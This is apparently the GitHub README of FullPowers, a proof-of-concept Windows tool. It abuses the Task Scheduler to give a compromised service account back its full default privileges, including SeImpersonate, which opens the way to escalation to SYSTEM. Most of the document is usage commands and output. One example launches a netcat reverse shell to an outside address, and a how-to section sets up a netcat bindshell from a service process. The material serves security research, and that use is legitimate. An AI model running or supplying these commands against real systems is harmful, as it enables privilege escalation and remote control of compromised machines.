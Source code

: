 # FullPowers

___FullPowers___ is a Proof-of-Concept tool I made for automatically recovering the default privilege set of a service account.

<p align="center">
  <img src="demo.gif">
</p>

## Rationale

On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to __run with a restricted set of privileges__. Therefore, even if the service is compromised, __you won't get the golden impersonation privileges__ and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you __create a scheduled task__, the new process created by the __Task Scheduler Service__ has __all the default privileges__ of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.

For more information: https://itm4n.github.io/localservice-privileges/

## Usage

You can check the help message using the `-h` option.

```
c:\TOOLS>FullPowers -h

FullPowers v0.1 (by @itm4n)

  This tool leverages the Task Scheduler to recover the default privilege set of a service account.
  For more information: https://itm4n.github.io/localservice-privileges/

Optional arguments:
  -v              Verbose mode, used for debugging essentially
  -c <CMD>        Custom command line to execute (default is 'C:\Windows\System32\cmd.exe')
  -x              Try to get the extended set of privileges (might fail with NETWORK SERVICE)
  -z              Non-interactive, create a new process and exit (default is 'interact with the new process')
```

### Example 1, basic usage
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

### Example 2, specify a custom command line
```
c:\TOOLS>FullPowers -c "powershell -ep Bypass"
[+] Started dummy thread with id 9028
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> Get-ExecutionPolicy
Bypass
```

### Example 3, start a netcat reverse shell and exit
```
c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
[+] Started dummy thread with id 5482
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
```

## How-To

__You want to test this PoC yourself? That's great!__ Here are some simple instructions to get you started.

The overall idea is to start a bindshell from the process of an existing service, connect to it and then run the executable. 

1. You'll need 2 third-party tools, [netcat](https://eternallybored.org/misc/netcat/) and [RunFromProcess](https://www.nirsoft.net/utils/run_from_process.html).  
2. Pick a service which has limited privileges, e.g.: `upnphost`.  
3. Open the __Task Manager__, go to the __Services__ tab and get the __PID__ of the corresponding process.  
4. Use the following command to start the bindshell __as an administrator__:  
```
C:\TOOLS>RunFromProcess-x64.exe <PID> C:\TOOLS\nc64.exe -l -p 9001 -e cmd
```
5. Use the following command to connect to the bindshell:  
```
C:\TOOLS>nc64.exe 127.0.0.1 9001
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description              State
======================= ======================== =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects    Enabled
```
6. We can see that the current process has no impersonation privileges. Now run the PoC...  
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 5568
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

You should now have a shell __with impsersonation privileges__!

